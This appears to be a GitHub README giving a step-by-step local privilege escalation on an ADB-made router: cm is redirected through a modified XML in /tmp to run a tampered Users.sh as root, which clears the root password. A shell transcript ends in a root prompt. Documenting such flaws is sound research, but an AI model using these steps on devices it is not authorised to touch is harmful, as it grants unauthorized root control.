 ## Exploiting the *cm* daemon to run a script with *root* privileges

The interesting thing is that it is possible to re-configure the `cm`
daemon giving it, through cmclient, a command to load a
new XML file located, for example, in the /tmp folder. Each definition in a new
XML file overwrites existing definitions, This means that it is possible to:

* copy `/etc/cm/tr181/dom/Management.xml` into `/tmp`

* modify `/tmp/Managemente.xml` to load `../../tmp/Users.sh`
  (`/tmp/Users.sh`) instead of `Users.sh` (`/etc/ah/Users.sh`)

* give the command to reconfigure the `cm` daemon: `cmclient
  DOM Device /tmp/Management.xml`

* copy `/etc/ah/Users.sh` into `/tmp`

* modify `/tmp/Users.sh` to modify `/tmp/passwd` (`/etc/passwd` links
  to this file) to remove the '\*' from the root password field to
  allow `su - root` without password

* have `cm` execute the modified `/tmp/Users.sh` script with `root` privileges
  with the command: `cmclient ADD Device.Users.User`

## hack-script.sh

This is a script to be executed on the `/bin/ash` command line
interface in the router to exploit the above vulnerability and become
root.

This script does exactly the above steps, so to become root, in an unprivileged
busybox command prompt, it is needed to:

```
/root $ cat > /tmp/hack-script.sh
   do a copy and paste of the script
   press CTRL-D to terminate the copy

/root $ chmod a+x /tmp/hack-script.sh
/root $ /tmp/hack-script.sh

 ....

/root $ su -


BusyBox v1.17.3 (2018-04-11 12:29:54 CEST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

      ___           ___           ___           ___     
     |\__\         /\  \         /\  \         /\  \    
     |:|  |       /::\  \       /::\  \       /::\  \   
     |:|  |      /:/\:\  \     /:/\:\  \     /:/\:\  \  
     |:|__|__   /::\~\:\  \   /::\~\:\  \   _\:\~\:\  \
     /::::\__\ /:/\:\ \:\__\ /:/\:\ \:\__\ /\ \:\ \:\__\
    /:/~~/~    \/__\:\/:/  / \/__\:\/:/  / \:\ \:\ \/__/
   /:/  /           \::/  /       \::/  /   \:\ \:\__\  
   \/__/            /:/  /         \/__/     \:\/:/  /  
                   /:/  /                     \::/  /   
                   \/__/                       \/__/    r41358.07b1b3a7  
..................................................................
 yet another purposeful solution by  Advanced Digital Broadcast SA
..................................................................
root@localhost:~# id
uid=0(root) gid=0(root) groups=0(root),19(remoteaccess),20(localaccess)
```